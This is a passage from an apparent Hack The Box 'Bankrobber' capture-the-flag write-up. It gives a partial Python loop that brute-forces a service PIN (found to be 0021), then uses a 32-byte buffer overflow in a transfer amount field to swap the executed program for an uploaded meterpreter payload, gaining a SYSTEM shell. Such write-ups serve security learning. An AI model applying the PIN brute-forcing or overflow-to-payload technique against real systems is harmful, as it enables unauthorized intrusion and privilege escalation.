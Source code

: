 ```python
            p.recvuntil("[$]", timeout=30)
            p.sendline("%s" % pin)
        except EOFError:
            print("Retry on %d" % i)
            continue
        try:
            m = p.recvline(timeout=10)
            print m
        except EOFError:
            print("Retry on %d" % i)
            continue
        if "Access denied, disconnecting client" not in m:
            print m
            exit(0)
        print "Doing ... " + str(i)
        i = i + 1
    else:
        print("We're done.")
        exit(0)
    p.close()
```

Thankfully the PIN was a low number so I didn't have to search the entire PIN space: `0021`

![](/assets/images/htb-writeup-bankrobber/brute.png)

When I log in with the PIN, I can transfer coins and I see that the `transfer.exe` command is executed:

![](/assets/images/htb-writeup-bankrobber/bof1.png)

If I send a large string I can see there's a buffer overflow present in the program since I no longer see the `transfer.exe` and it's replaced by some characters that submitted in the amount field.

![](/assets/images/htb-writeup-bankrobber/bof2.png)

The offset is 32 bytes as shown below:

![](/assets/images/htb-writeup-bankrobber/bof3.png)

Note that whatever is overflowing from the amount variable gets into the name of the program that is executed after. So I can simply replace the executed program by a meterpreter payload I uploaded:

![](/assets/images/htb-writeup-bankrobber/bof4.png)

My meterpreter gets executed and I get a shell as NT AUTHORITY\SYSTEM

![](/assets/images/htb-writeup-bankrobber/bof5.png)

```
meterpreter > cat /users/admin/desktop/root.txt
aa65d8e...
```